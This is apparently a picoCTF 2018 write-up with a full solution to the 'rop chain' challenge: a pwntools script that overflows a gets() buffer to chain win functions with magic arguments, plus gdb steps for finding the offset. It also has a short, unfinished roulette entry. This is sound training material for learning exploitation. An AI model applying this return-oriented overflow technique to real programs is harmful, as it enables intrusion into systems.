 # rop chain
### Binary Exploitation: 350p
Can you exploit the following program and get the flag? You can findi the [program](https://2018shell2.picoctf.com/static/d7b3d809a1a0a71b4d49c6d110977326/rop) in /problems/rop-chain\_4\_6ba0c7ef5029f471fc2d14a771a8e1b9 on the shell server? [Source](https://2018shell2.picoctf.com/static/d7b3d809a1a0a71b4d49c6d110977326/rop.c).
```C
void vuln() {
  char buf[16];
  printf("Enter your input> ");
  return gets(buf);
}
```
That is the vuln part. Look at the source. A number of things need to be in the correct order on the stack. Offset to first ret pointer is 28. Then address of function win\_function1, win\_function2, flag function, 0xbaaaaaad, 0xdeadbad need to be there in that order. Just run under gdb and experiment with moving the arguments around. I used the following code to generate the payload:
```python
from pwn import *
e = ELF('./rop')
win1 = p32(e.symbols['win_function1'])
win2 = p32(e.symbols['win_function2'])
flag = p32(e.symbols['flag'])
offset = 28
payload = 'A'*offset + win1 + win2 + flag + p32(0xbaaaaaad) + p32(0xdeadbaad)
```
You could also find the addresses with objdump, but pwntools is faster and easier. To find the offset try to send in different number of A:s and 4 B:s until it crashes. Dump core by setting *ulimit -c unlimited* and find the crash address with *gdb rop core*. When it crashes at exactly 42424242 then the offset is correct.

To debug in gdb, for instance write the payload to a file, payload.bin.
```bash
gdb rop
break win_function1
run < payload.bin
```
Now gdb will stop if it enters win\_function1 and you can investigate the stack step by step from there. When you have a working payload.bin, run copy it to the contest server and run it. You could copy the entire python program to the contest server too, they have pwntools installed there.

# roulette
### General Skills: 350p
This Online [Roulette](https://2018shell2.picoctf.com/static/2d8417ef7707fec56592db02da54575e/roulette.c) Service is in Beta. Can you find a way to win $1,000,000,000 and get the flag? [Source](https://2018shell2.picoctf.com/static/2d8417ef7707fec56592db02da54575e/roulette.c). Connect with nc 2018shell2.picoctf.com 48312.

First clue to beat roulette.
